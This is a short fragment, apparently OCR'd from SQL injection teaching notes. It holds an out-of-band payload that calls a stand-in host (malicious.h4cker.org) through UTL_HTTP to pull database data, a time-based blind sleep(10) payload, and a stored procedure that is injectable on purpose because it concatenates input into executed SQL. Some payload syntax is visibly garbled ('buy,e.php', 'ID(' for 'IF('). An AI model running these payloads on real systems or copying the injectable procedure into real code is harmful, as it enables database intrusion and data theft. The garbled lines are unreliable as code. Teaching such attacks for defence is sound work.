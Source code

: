 http://store.h4cker.org/buy,e.php?id=8||UTL_HTTP.request('malicious.h4cker.org')||SELECT user FROM DUAL)--

forces the server to delay the response by 10 seconds:
?id=8 AND ID(version() like '8%', sleep(10), 'false'))-- // time delay

Stored procedures
create procedure user_login @username varchar(20), @passwd varchar(20) As Declare @sqlstring varchar(250) Set @sqlstring = ' Select 1 from users Where username = ' + @username + ' and passwd = ' + @passwd exec(@sqlstring) Go


